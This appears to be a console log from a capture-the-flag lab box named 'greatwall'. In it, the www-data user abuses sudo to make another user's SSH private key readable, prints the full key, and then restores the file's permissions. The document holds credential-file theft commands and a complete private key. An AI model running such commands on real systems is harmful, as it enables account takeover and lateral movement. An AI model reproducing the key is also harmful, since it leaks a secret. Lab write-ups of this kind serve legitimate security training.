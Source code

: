 ```console
drwxr-xr-x 2 wall wall 4096 May 11 02:41 .ssh
-rw-r--r-- 1 wall wall 1808 May 11 00:25 user.flag
www-data@greatwall:/home/wall$ cd .ssh/
www-data@greatwall:/home/wall/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
www-data@greatwall:/home/wall/.ssh$ ls -al
total 20
drwxr-xr-x 2 wall wall 4096 May 11 02:41 .
drwxr-xr-x 4 wall wall 4096 May 11 02:41 ..
-rw-r--r-- 1 wall wall  568 May 11 02:41 authorized_keys
-rw------- 1 wall wall 2602 May 11 02:41 id_rsa
-rw-r--r-- 1 wall wall  568 May 11 02:41 id_rsa.pub
www-data@greatwall:/home/wall/.ssh$ sudo -u wall chmod 644 id_rsa
www-data@greatwall:/home/wall/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
www-data@greatwall:/home/wall/.ssh$ sudo -u wall chmod 600 id_rsa
```
